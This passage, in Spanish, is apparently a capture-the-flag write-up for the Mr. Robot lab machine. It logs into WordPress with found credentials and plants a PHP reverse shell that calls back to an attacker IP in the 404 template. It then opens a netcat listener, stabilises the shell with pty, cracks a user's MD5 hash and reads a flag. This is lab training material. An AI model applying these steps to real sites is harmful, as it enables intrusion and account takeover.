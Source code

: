 Una vez obtenidas, estas credenciales nos permitirán acceder al panel de administración de WordPress
```bash
username: Elliot
password: ER28-0652
```
Una vez accedamos al panel de control de WordPress, procederemos a insertar una shell inversa. Para ello, navegaremos a 'Apariencia' > 'Editor' y localizaremos el archivo de plantilla 404.php. Eliminaremos su contenido y añadiremos la shell ubicada en '/usr/share/webshells/php'.
```bash
cp -r /usr/share/webshell/php/php-reverse-shell.php ~/
```
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.1.11';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Una vez actualizada la página, usamos el comando netcat para escuchar en el puerto que hayamos especificado en la shell
```bash
nc -lvnp 1234
```

Mientras escuchamos en el puerto especificado, accedemos al archivo que acabamos de subir desde el navegador utilizando cualquier ruta errónea para provocar un error 404. Esto nos permitirá obtener el shell inverso en la terminal

# Privilege escalation
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Al acceder a /home, encontramos un usuario llamado robot. Dentro de este, nos topamos con dos archivos
```bash
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```
No podemos acceder a key-2-of-3.txt, pero sí podemos leer password.raw-md5. La lectura del archivo de contraseña revela lo que parece ser un nombre de usuario y una contraseña cifrada con md5
```bash
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
Podemos intentar descifrar este hash utilizando  [CrackStation](https://crackstation.net/). Con esto conseguiremos las credenciales del usuario robot
```bash
username: robot
password: abcdefghijklmnopqrstuvwxyz
```
Una vez dentro de la cuenta de robot, podremos visualizar la clave
```bash
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```